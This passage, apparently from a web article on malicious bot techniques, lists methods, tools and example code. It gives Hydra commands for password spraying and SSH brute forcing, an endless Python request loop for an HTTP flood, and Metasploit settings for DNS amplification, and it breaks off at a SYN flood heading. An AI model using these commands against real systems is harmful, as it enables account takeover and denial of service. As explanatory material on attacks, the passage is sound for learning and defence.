 
- **Password Spraying:**

    - **Method:** Trying common passwords across many accounts.
    - **Tools:** Hydra, Medusa
    - **Example:** Using Hydra to perform a password spraying attack:
    {{< highlight Bash >}}
    hydra -L usernames.txt -p commonpassword1 https://example.com/login http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
    {{< /highlight >}}

- **Brute Force Attacks:**

    - **Method:** Systematically trying all possible passwords.
    - **Tools:** John the Ripper, Hashcat
    - **Example:** Brute forcing an SSH password with Hydra:

        {{< highlight Bash >}}
        hydra -l user -P password_list.txt ssh://example.com
        {{< /highlight >}}
## 3. Denial-of-Service (DoS) Bots

**Purpose:**

Overwhelm a website with traffic.

**Techniques:**

- **HTTP Flood:**

    - **Method:** Sending numerous HTTP requests to exhaust server resources.
    - **Tools:** LOIC (Low Orbit Ion Cannon), HOIC (High Orbit Ion Cannon)
    - **Example:** Using a simple Python script to flood a website with requests:

        {{< highlight Python>}}
        import requests

        url = 'https://example.com'
        while True:
            response = requests.get(url)
            print(f'Response code: {response.status_code}')
        {{< /highlight >}}
- **DNS Amplification:**

    - **Method:** Exploiting DNS servers to flood the target with traffic.
    - **Tools:** Metasploit, custom scripts
    - **Example:** Amplifying a DNS query using Metasploit:

        {{< highlight Bash>}}
        use auxiliary/scanner/dns/dns_amp
        set RHOSTS target_ip
        set RPORT 53
        set PAYLOAD_SIZE 1400
        run
        {{< /highlight >}}
- **SYN Flood:**
